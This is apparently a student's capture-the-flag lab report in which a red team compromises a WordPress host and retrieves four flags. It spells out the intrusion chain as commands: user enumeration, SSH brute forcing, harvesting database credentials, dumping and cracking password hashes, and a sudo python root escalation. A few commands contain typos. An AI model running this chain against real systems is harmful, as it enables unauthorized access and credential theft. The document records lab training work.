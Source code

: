 ## Red Team: Summary of Operations

### Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167323675-6f768eff-da1b-490b-b86c-72e2a331e513.PNG)


* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
			![flag1a](https://user-images.githubusercontent.com/92223941/167323759-8b74a228-fd22-46af-8999-f0280edcce4b.PNG)
			![flag1b](https://user-images.githubusercontent.com/92223941/167323777-53619b86-1123-4d0d-8a23-56ab23b44df5.PNG)


			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run
			
			![flag1c](https://user-images.githubusercontent.com/92223941/167323904-5f7dbbbf-c62e-4840-9d8d-5c3cb6ca28d3.PNG)
			![flag1d](https://user-images.githubusercontent.com/92223941/167323988-ee4f5658-4624-4ac0-9aa0-6d47643b3918.PNG)
			![flag1e](https://user-images.githubusercontent.com/92223941/167324002-8ede5afa-1078-40b4-a2aa-29477dd533b2.PNG)
			![flag1f](https://user-images.githubusercontent.com/92223941/167324020-5c639462-a395-4025-a2c9-09fd8bd3af5d.PNG)




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael
			![flag1g](https://user-images.githubusercontent.com/92223941/167324082-3fc31b7f-4941-42ed-a7aa-83717c4d95ab.PNG)

			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls
			
			![flag1h](https://user-images.githubusercontent.com/92223941/167324979-d7ebf9a0-ca4b-41f1-902d-44ea39952d6a.PNG)

			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”
			
			![flag1i](https://user-images.githubusercontent.com/92223941/167325079-19322eb6-7552-42c7-bd5c-23466815a0e4.PNG)


	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt

	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress
			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php
			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity
			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;
			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;

	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;
			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;
			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt
			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”
			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt
			- I logged into Steven via ssh 
			- ssh steven password:pink84
			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’
			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt
